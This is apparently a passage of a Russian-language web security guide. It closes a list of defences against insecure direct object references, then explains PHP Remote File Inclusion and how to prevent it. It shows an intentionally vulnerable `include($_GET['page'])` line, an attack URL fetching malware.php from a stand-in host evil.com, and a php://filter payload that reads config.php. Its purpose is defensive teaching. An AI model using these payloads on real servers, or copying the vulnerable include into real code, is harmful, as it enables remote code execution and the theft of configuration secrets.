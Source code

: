 ✅ **2. Использовать аутентификацию и авторизацию** - В API-запросах проверять, что пользователь запрашивает **только свои данные**.

✅ **3. Избегать передавать идентификаторы в URL** - Вместо `id=123` лучше использовать **уникальные токены** или **JWT-токены**.

✅ **4. Использовать Access Control List (ACL)** - Настроить чёткие **разрешения** на доступ к объектам.

✅ **5. Логировать подозрительные запросы** - Если один IP-адрес запрашивает **разные ID подряд**, это может быть атакой.

## 🔹 6. Что такое RFI (Remote File Inclusion) и как защититься.

> **RFI (Удалённое включение файлов)** – это уязвимость, при которой злоумышленник может загрузить и выполнить **внешний (удалённый) файл** на сервере жертвы.

 **Как работает RFI?**

 **📌 Загрузка вредоносного кода.

Допустим, у нас есть PHP-код, который загружает страницу по параметру `page`:

`<?php include($_GET['page']); ?>`

🔴 **Проблема**: код **подключает файл без проверки**, откуда он загружается.

🔹 Запрос, который использует атаку:

`https://example.com/index.php?page=http://evil.com/malware.php`

Если сервер не защищён, он скачает и выполнит **`malware.php`** с атакующего сервера. Теперь злоумышленник может **выполнить любой код** на сервере жертвы!

  **📌  Чтение конфиденциальных данных**

Если сервер разрешает `file://` или `php://`, злоумышленник может украсть файлы, например, `config.php`:

`https://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php`

Сервер выдаст `config.php` в Base64, и злоумышленник сможет расшифровать его.

 **Как защититься от RFI?**

✅ **1. Отключить `allow_url_include` в PHP**

`allow_url_include = Off`

✅ **2. Фильтровать входные данные** - Использовать **белый список разрешённых файлов**:

✅ **3. Использовать абсолютные пути**

✅ **4. Ограничить права сервера**

- Запретить исполнение PHP-кода в `uploads/`
- Использовать `chmod 640` для важных файлов

✅ **5. Включить `WAF` (Web Application Firewall)**  
WAF (например, ModSecurity) может блокировать RFI-атаки **до их выполнения**.

